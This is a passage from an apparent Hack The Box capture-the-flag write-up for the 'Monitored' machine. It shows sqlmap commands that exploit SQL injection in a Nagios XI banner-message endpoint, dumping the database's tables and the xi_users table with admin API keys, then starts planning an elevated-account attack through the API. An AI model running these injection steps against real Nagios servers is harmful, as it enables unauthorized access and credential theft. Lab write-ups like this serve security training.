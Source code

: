 Now we'll target `nagiosxi` and dump the tables:
```bash
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=busp3tpjtbvc4tngeg8or3sg2t" -D nagiosxi --tables
Database: nagiosxi
[22 tables]
+-----------------------------+
| xi_auditlog                 |
| xi_auth_tokens              |
| xi_banner_messages          |
| xi_cmp_ccm_backups          |
| xi_cmp_favorites            |
| xi_cmp_nagiosbpi_backups    |
| xi_cmp_scheduledreports_log |
| xi_cmp_trapdata             |
| xi_cmp_trapdata_log         |
| xi_commands                 |
| xi_deploy_agents            |
| xi_deploy_jobs              |
| xi_eventqueue               |
| xi_events                   |
| xi_link_users_messages      |
| xi_meta                     |
| xi_mibs                     |
| xi_options                  |
| xi_sessions                 |
| xi_sysstat                  |
| xi_usermeta                 |
| xi_users                    |
+-----------------------------+
```

And then dump `xi_users`:
```bash
$ sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" --cookie "nagiosxi=busp3tpjtbvc4tngeg8or3sg2t" -D nagiosxi -T xi_users --dump
| username    | api_key                                                          | enabled | api_enabled |
|-------------|------------------------------------------------------------------|---------|-------------|
| nagiosadmin | IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL | 1       | 1           |
| svc         | 2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK | 0       | 1           |
```

We find an API key for `nagiosadmin`, there was a hash but it wasn't crackable sadly.
# Exploiting Admin API
Now that we have an API key, lets see what we can do. My first thought is being able to make my own elevated account on the site.
The Nagios docs isn't the best, so I downloaded the 5.11.0 release from their site and looked through the codebase instead: [https://assets.nagios.com/downloads/nagiosxi/versions.php](https://assets.nagios.com/downloads/nagiosxi/versions.php)

